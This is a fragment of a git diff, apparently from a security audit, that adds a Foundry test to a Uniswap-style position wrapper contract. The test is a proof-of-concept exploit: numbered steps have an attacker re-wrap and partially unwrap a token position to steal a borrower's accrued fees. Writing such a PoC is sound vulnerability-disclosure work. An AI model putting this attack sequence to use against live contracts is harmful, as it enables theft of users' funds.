 ```diff
+           tokenId2,
+           attacker,
+           wrapper.FULL_AMOUNT(),
+           bytes("")
+       );
+
+       console.log("Wrapper balance of currency0: %s", currency0.balanceOf(address(wrapper)));
+       console.log("Wrapper balance of currency1: %s", currency1.balanceOf(address(wrapper)));
+
+       // 8. attacker recovers tokenId2 position
+       wrapper.unwrap(
+           attacker,
+           tokenId2,
+           attacker
+       );
+
+       // 9. attacker increases liquidity for tokenId2
+       IERC721(wrapper.underlying()).approve(address(mintPositionHelper), tokenId2);
+       increasePosition(poolKey, tokenId2, 1000, type(uint96).max, type(uint96).max, attacker);
+
+       // 10. attacker wraps tokenId2 again
+       wrapper.underlying().approve(address(wrapper), tokenId2);
+       wrapper.wrap(tokenId2, attacker);
+
+       // 11. attacker steals borrower's fees by partially unwrapping tokenId2 again
+       wrapper.unwrap(
+           attacker,
+           tokenId2,
+           attacker,
+           wrapper.FULL_AMOUNT() * 9 / 10,
+           bytes("")
+       );
+
+       console.log("Wrapper balance of currency0: %s", currency0.balanceOf(address(wrapper)));
+       console.log("Wrapper balance of currency1: %s", currency1.balanceOf(address(wrapper)));
+
+       // 12. borrower tries to unwrap a further 10% of tokenId1 but it reverts because the owed fees were stolen
+       // startHoax(borrower);
+       // wrapper.unwrap(
+       //     borrower,
+       //     tokenId1,
+       //     borrower,
+       //     wrapper.FULL_AMOUNT() / 10,
+       //     bytes("")
+       // );
+    }
+
     function testFuzzFeeMath(int256 liquidityDelta, uint256 swapAmount) public {
         LiquidityParams memory params = LiquidityParams({
             tickLower: TickMath.MIN_TICK + 1,
--
2.40.0

```
